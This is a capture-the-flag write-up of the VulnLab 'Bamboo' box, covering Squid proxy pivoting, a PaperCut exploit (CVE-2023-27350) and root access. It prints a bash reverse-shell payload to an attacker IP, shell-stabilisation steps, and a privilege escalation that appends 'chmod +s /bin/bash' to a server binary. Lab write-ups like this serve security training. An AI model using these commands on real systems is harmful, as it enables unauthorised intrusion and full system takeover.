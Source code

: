 ```yaml
---
title: VulnLab -- Bamboo Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve,squid proxy]
image:
    path: images/bamboo-banner.png
---
```

# Bamboo

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Bamboo** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/bamboo-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3128 --min-rate=1000 10.10.110.40
```

![image.png](../images/bamboo.png)

> Notice that we have the squid port open which mean we can scan the internal ports
> 

Now let’s scan the internal ports

```bash
./squidscan
```

![image.png](../images/bamboo%201.png)

Now let’s add the proxy to our proxy configurations 

```bash
http 10.10.110.40 3128
```

![image.png](../images/bamboo%202.png)

Now let’s curl the new port

```bash
curl --proxy http://10.10.110.40:3128 http://10.10.110.40:9191 -v
```

![image.png](../images/bamboo%203.png)

Now let’s search for a CVE for this

![image.png](../images/bamboo%204.png)

now let’s gain RCE

First open a listener

```bash
nc -lvnp 1337
```

![image.png](../images/bamboo%205.png)

now let’s run the CVE

```bash
proxychains -q python3 CVE-2023-27350.py -u "http://10.10.110.40:9191" -c "bash -i >& /dev/tcp/10.8.5.233/1337 0>&1"
```

![image.png](../images/bamboo%206.png)

now let’s see the listener

![image.png](../images/bamboo%207.png)

and we got a shell

Now let’s stabilize the shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image.png](../images/bamboo%208.png)

Now let’s hit CTRL + Z

![image.png](../images/bamboo%209.png)

now let’s go and type this

```bash
stty raw -echo;fg
```

![image.png](../images/bamboo%2010.png)

Now exporting tty

```bash
export TERM=xterm
```

![image.png](../images/bamboo%2011.png)

now let’s forward the port 9191

```bash
ssh -L 9191:127.0.0.1:9191 papercut@10.10.110.40
```

![image.png](../images/bamboo%2012.png)

now let’s access the website

![image.png](../images/bamboo%2013.png)

now let’s search for authentication bypass vuln

![image.png](../images/bamboo%2014.png)

we found on so let’s abuse it

```bash
python3 bypass.py
```

![image.png](../images/bamboo%2015.png)

now let’s see if we bypassed the auth 

![image.png](../images/bamboo%2016.png)

and we did!

now let’s do it again and monitor with pspy64

```bash
./pspy64
```

![image.png](../images/bamboo%2017.png)

notice that there is a binary named server-command is executed so let’s overwrite it

```bash
echo "chmod +s /bin/bash" >> /home/papercut/server/bin/linux-x64/server-command
```

![image.png](../images/bamboo%2018.png)

now go back to the website and click refresh servers 

![image.png](../images/bamboo%2019.png)

Now let’s see the SUID binary on /bin/bash 

```bash
ls -als /bin/bash
```

![image.png](../images/bamboo%2020.png)

now let’s exploit it

```bash
/bin/bash -p
```

![image.png](../images/bamboo%2021.png)

notice that we got root access so let’s go and see the root flag

```bash
cd /root;ls -las
```

![image.png](../images/bamboo%2022.png)

Amazing we got the root flag 🥳

![image.png](../images/bamboo%2023.png)

That’s it for the **Bamboo** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX